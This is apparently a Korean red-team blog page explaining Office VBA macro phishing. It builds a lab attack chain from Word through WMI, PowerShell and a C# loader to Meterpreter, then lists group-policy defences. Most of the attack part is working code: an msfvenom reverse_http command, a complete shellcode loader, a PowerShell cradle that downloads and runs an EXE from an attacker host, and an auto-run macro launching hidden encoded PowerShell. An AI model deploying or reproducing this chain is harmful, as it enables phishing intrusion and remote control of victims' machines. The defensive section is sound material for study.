 # 오피스 VBA 매크로

비쥬얼 베이직 어플리케이션 (VBA) 매크로는 마이크로소프트 오피스 제품들의 자동화를 도와주는 비쥬얼 베이직 6.0 기반의 프로그래밍 언어다. 보안적으로는 90년대부터 피싱 공격 첨부파일안의 악성코드를 실행하는데 많이 사용됐다.&#x20;

2022년 기준 오피스 VBA 매크로를 사용한 초기 침투 및 피싱 공격은 성공하기 매우 어려워졌다. 마이크로소프트는 2022년 2월에 모든 오피스 제품들과 오피스365에서[ 기본적으로 매크로를 비활성화 하도록 패치](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)했다. - 2022/07/07 업데이트 - 라고 생각했는데 7월 7일 이 패치를 롤백했다 ([https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)). 따라서 VBA 매크로는 여전히 기본적으로 활성화 되어 있는 상태다. 레드팀들이나 공격자들이 매우 환영할만한 롤백이다(...).&#x20;

이제는 잘 쓰이지 않게 된 TTP지만 거의 30년 동안 공격자들이 사용했던 역사적인 가치가 있는 공격 기법이기 때문에 기초를 닦는다는 마음가짐으로 이 페이지에서 정리한다.&#x20;

### AutoOpen, Document\_Open&#x20;

오피스 제품들에서 실행되는 VBA 매크로 중 AutoOpen() 과 Document\_Open() 함수는 파일을 열자마자 자동적으로 실행되는 함수다. 이를 막는 MotW (Mark of the Web), Protected Views, 그리고 Enable Content 등의 방어 기법들이 있어 요새는 문서를 연다고 해서 VBA 매크로가 자동적으로 실행되지는 않는다. 그러나 피해자 유저가 방어 기법들을 모두 비활성화 하거나 허용할 시 위에서 언급된 함수들이 실행된다.&#x20;

### 실습&#x20;

이번 실습에서는 다음과 같은 공격 체인을 만들어본다:&#x20;

* 워드 프로세스 -> VBA 매크로 -> WMI -> 파워쉘 -> C# .NET 로더 -> Meterpreter&#x20;

중간에 VBA 매크로에서 WMI를 사용하는 것은 쉘이 워드 프로세스 파일이 아닌 `WmiPrvSE.exe` 파일의 자식 프로세스로 생성되기 때문이다. 이 경우 피해자 유저가 워드 문서 파일을 닫아도 쉘은 살아있게 된다.&#x20;

1. 먼저 Meterpreter 쉘코드를 `msfvenom` 을 이용해 만든다.&#x20;

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.40.182 lport=443 --encrypt aes256 --encrypt-key 'qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT' --encrypt-iv '?aEe(fG+KbPe23fz' -f csharp
```

2\. 이 Meterpreter 쉘을 로드해 실행할 C# .NET 로더를 만든다. 슬리버 C2의 스테이저 코드를 수정한 뒤 사용했다.&#x20;

<details>

<summary>MeterStager.cs</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace MeterStager
{
    public class Stager
    {
        private static string aesKey = "qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT";
        private static string aesIV = "?aEe(fG+KbPe23fz";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            byte[] shellcode = new byte[720] {
            	
            < ... Meterpreter 쉘코드 ... >  

            };


            shellcode = Decrypt(shellcode, aesKey, aesIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)0xfff0000, 0x3000, 0x40);
            //Console.WriteLine("[+] addr: {0}", addr.ToInt64().ToString("x2"));
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            //Console.WriteLine("[+] shellcode length: {0}", shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

3\. 이후 이 MeterStager.cs C# .NET 로더는 파워쉘에 로드되어 실행된다. 공격자의 다른 서버 `192.168.40.179` 의 포트 9999에서 파일을 받아온 뒤, Reflection을 이용해 로드한 뒤, 메인 EntryPoint를 실행하도록 파워쉘 페이로드를 준비한다. &#x20;

```
iex([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:9999/MeterStager.exe'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

위 파워쉘 페이로드를 VBA 매크로에 들어가도록 유틸 스크립트를 이용해 base64 인코딩 한다.&#x20;

<details>

<summary>Invoke-VBAps.ps1</summary>

```powershell
$s = @'
 < your powershell payload here > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
}
```



</details>

4\. 이제 완성된 파워쉘 페이로드를 VBA 매크로에다가 집어넣은 뒤, 문서를 생성하면 된다.&#x20;

<details>

<summary>go.vba</summary>

```vba
Sub Document_Open()
    test
End Sub

Sub AutoOpen()
    test
End Sub

Function test()
    Const HIDDEN_WINDOW = 12

    strComputer = "."
    Set objWMIService = GetObject("winmgmts:" _
        & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")

    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    
    Dim proc As Object
    Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    Dim str As String
    
    str = "powershell -exec bypass -nologo -nop -w hidden -enc " & _
    "aQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMAAuADEANwA5ADoAOQA5ADkAOQAvAFMAbABpAHYAZQBy" & _
    "AFMAdABhAGcAZQByAC4AZQB4AGUAJwApACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBPAGIAagBlAGMAdABbAF0AXQBAACgAQAAoACwAKABbAFMAdAByAGkAbgBnAFsAXQBdAEAAKAApACkAKQApACkA"
    
    errReturn = proc.Create(str, Null, objConfig, intProcessID)
End Function
```

</details>

Chameleon과 VBA script 난독화를 진행할 경우 디펜더 우회는 가능하지만, 모든 공격 PoC가 그렇듯 무기화는 진행하지 않는다.&#x20;

실행하면 다음과 같은 결과가 나온다.&#x20;

![](../../.gitbook/assets/blog-simple-vba.gif)

### 대응 방안&#x20;

* 업데이트된 오피스 제품들이나 오피스365를 사용한다면 기본적으로 악성 VBA 매크로가 비활성화 되어 있다. - 라고 생각했지만 07/07일 마이크로소프트 사가 이를 [롤백](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)했다.&#x20;
* 마이크로 오피스 전용 그룹 정책 Administrative Template File 을 다운 받은 뒤, 그룹 정책을 설정한다. 그룹 정책을 설정할 때에는 유저 그룹마다, 호스트 그룹마다 따로 GPO를 설정하는 것이 권장된다.&#x20;
* 예를 들어, VBA 매크로 자체를 비활성화 해버리는 GPO의 경우 회계부서 OU 보다는 IT나 세일즈 유저들이 있는 OU에 링크 하는 것이 바람직할 것이다.&#x20;
* VBA 비활성화 혹은 디지털 서명된 VBA만 사용 - `Computer/User Configuration\Policies\Administrative Templates\Microsoft Office XXXX\Security Settings\Disable VBA Office applications`
* 개인이나 GPO가 필요없는 소규모 네트워크의 경우 엔드 유저가 직접 비활성화 시킬수도 있다.
  * 워드 -> Options -> Trust Center -> Trust Center Settings -> Macro Settings -> VBA 완전 비활성화 혹은 디지털 서명된 VBA 만 허용&#x20;

![](../../.gitbook/assets/endpoint-no-vba.png)

* 현 조직에서 매크로를 많이 사용한다면 인터넷에서 받은 문서+매크로 파일들만 비활성화 하는 GPO를 사용한다.&#x20;
  * ![](<../../.gitbook/assets/image (4).png>)
  * `User Configuration\Policies\Administrative Templates\Block macros from running in Office files from the Internet - Protected`
* 더 자세한 대응 방안은 레퍼런스를 참고한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=49030" %}

{% embed url="https://4sysops.com/archives/restricting-or-blocking-office-2016-2019-macros-with-group-policy/" %}

{% embed url="https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked#block-macros-from-running-in-office-files-from-the-internet" %}
